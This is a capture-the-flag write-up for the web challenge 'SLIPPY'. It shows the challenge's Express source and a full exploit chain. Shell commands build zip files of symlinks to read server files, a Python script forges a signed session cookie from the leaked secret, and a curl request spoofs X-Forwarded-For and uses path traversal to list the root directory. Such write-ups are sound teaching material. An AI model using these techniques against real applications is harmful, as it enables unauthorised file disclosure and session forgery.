


# SLIPPY

```text
Slipping Jimmy keeps playing with Finger.
```

points: `50`

solves: `168`

author: `Sagi`

---

## Files provided

```text
├── Dockerfile
└── src
    ├── .env
    ├── middleware
    │   ├── developmentOnly.js
    │   └── session.js
    ├── package.json
    ├── package-lock.json
    ├── public
    ├── routes
    │   └── index.js
    ├── server.js
    ├── uploads
    └── views
        ├── files.ejs
        ├── index.ejs
        ├── styles.ejs
        └── upload.ejs
```

`Dockerfile`:

```dockerfile
FROM node:22-bookworm

WORKDIR /app

COPY src/package*.json ./
RUN npm install

COPY src/ .

EXPOSE 3000

RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; mkdir "$rand_dir" && echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && chmod -R +r "$rand_dir"

CMD ["npm", "start"]
```

`.env`:

```env
SESSION_SECRET=<REDACTED>
```

`server.js`:

```javascript
const express = require('express');
const session = require('express-session');
const path = require('path');
const fs = require('fs');
require('dotenv').config();


const app = express();

// Middleware
app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

// Session
const store = new session.MemoryStore();
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('<REDACTED>', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
  });

app.use(session({
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  store: store
}));

app.set('view engine', 'ejs');
app.set('views', path.join(__dirname, 'views'));
app.set('trust proxy', true);

// Ensure uploads dir exists
const uploadsDir = path.join(__dirname, 'uploads');
if (!fs.existsSync(uploadsDir)) fs.mkdirSync(uploadsDir);

// Routes
const indexRoutes = require('./routes/index');
app.use('/', indexRoutes);

app.listen(3000, () => {
  console.log('Server running at http://localhost:3000');
});
```

`index.js`:

```javascript
const express = require('express');
const multer = require('multer');
const path = require('path');
const { execFile } = require('child_process');
const fs = require('fs');
const ensureSession = require('../middleware/session');
const developmentOnly = require('../middleware/developmentOnly');

const router = express.Router();

router.use(ensureSession);

const upload = multer({ dest: '/tmp' });

router.get('/', (req, res) => {
  res.render('index', { sessionId: req.session.userId });
});

router.get('/upload', (req, res) => {
  res.render('upload');
});

router.post('/upload', upload.single('zipfile'), (req, res) => {
    const zipPath = req.file.path;
    const userDir = path.join(__dirname, '../uploads', req.session.userId);
  
    fs.mkdirSync(userDir, { recursive: true });
  
    // Command: unzip temp/file.zip -d target_dir
    execFile('unzip', [zipPath, '-d', userDir], (err, stdout, stderr) => {
      fs.unlinkSync(zipPath); // Clean up temp file
  
      if (err) {
        console.error('Unzip failed:', stderr);
        return res.status(500).send('Unzip error');
      }
  
      res.redirect('/files');
    });
  });

router.get('/files', (req, res) => {
  const userDir = path.join(__dirname, '../uploads', req.session.userId);
  fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
});

router.get('/files/:filename', (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.session.userId);
    const requestedPath = path.normalize(req.params.filename);
    const filePath = path.resolve(userDir, requestedPath);
  
    // Prevent path traversal
    if (!filePath.startsWith(path.resolve(userDir))) {
      return res.status(400).send('Invalid file path');
    }
  
    if (fs.existsSync(filePath) && fs.statSync(filePath).isFile()) {
      res.download(filePath);
    } else {
      res.status(404).send('File not found');
    }
  });

router.get('/debug/files', developmentOnly, (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.query.session_id);
    fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
});

module.exports = router;
```

`session.js`:

```javascript
const crypto = require('crypto');
const path = require('path');
const fs = require('fs');

const USER_ID_REGEX = /^[a-f0-9]{16}$/;

function isValidUserId(id) {
  return id === 'develop' || USER_ID_REGEX.test(id);
}

module.exports = function (req, res, next) {
    if (!isValidUserId(req.session.userId)) {
      req.session.userId = crypto.randomBytes(8).toString('hex');
    }
  
    const userDir = path.join(__dirname, '../uploads', req.session.userId);
    fs.mkdirSync(userDir, { recursive: true });
  
    next();
  };
```

`developmentOnly.js`:

```javascript
module.exports = function (req, res, next) {
    if (req.session.userId === 'develop' && req.ip == '127.0.0.1') {
      return next();
    }
    res.status(403).send('Forbidden: Development access only');
  };
```

## Solution



From dockerfile, we can see that the flag is stored in a directory with a random name

About the endpoints:

- `/upload`: Used to upload a zip file, which is unzipped and the files are stored in `../upload/<userId>`
- `/files`: Shows the list of files in `../upload/<userId>`
- `/files:filename`: Downloads the file specified. Potential path traversal is not possible here
- `/debug/files?session_id=<dirname>`: Shows the files in the `../upload/<dirname>` directory. Potential path traversal endpoint but is protected by `developmentOnly` middleware

`developmentOnly` middleware allows access only if:

1. `req.ip == '127.0.0.1'`: We can see `app.set('trust proxy', true);` in `server.js`, this means that the server will trust the **X-Forwarded-*** headers
2. `req.session.userId === 'develop'`: We must forge a cookie that would bypass this. For that, we need the redacted sessionId in `server.js` and the redected secret in `.env`

Craft a malicious zip file, containing symlinks to `.env`, `server.js`

```shell
ln -s /app/.env envlink
ln -s /app/server.js serverlink
zip --symlinks exploit.zip envlink serverlink
```

Uploading this zip file gives us the `.env` & `server.js` at the server



> store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => { \
> SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b

Forge a cookie:

```python
import hmac, hashlib, base64

secret = b"3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b"
sid = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E"

sig = hmac.new(secret, sid.encode(), hashlib.sha256).digest()
sig_b64 = base64.b64encode(sig).decode().rstrip("=")

cookie = f"s:{sid}.{sig_b64}"
print("connect.sid=" + cookie)
```

List the files/directories in the `/` directory

```shell
curl https://web-slippy-d07ebf9335bd26f7.challs.tfcctf.com/debug/files?session_id=../../../ \
-H "Cookie: connect.sid=s:amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E.R3H281arLqbqxxVlw9hWgdoQRZpcJElSLSSn6rdnloE" \
-H "X-Forwarded-For: 127.0.0.1"
```

We find the flag directory:

```html
<li class="list-group-item">
    tlhedn6f
    <a href="/files/tlhedn6f" class="button">Download</a>
</li>
```

Symlink attack again:

```shell
ln -s /tlhedn6f/flag.txt flaglink
zip --symlinks flag.zip flaglink
```

Upload the zip and download the "flaglink" file -> this gives the flag
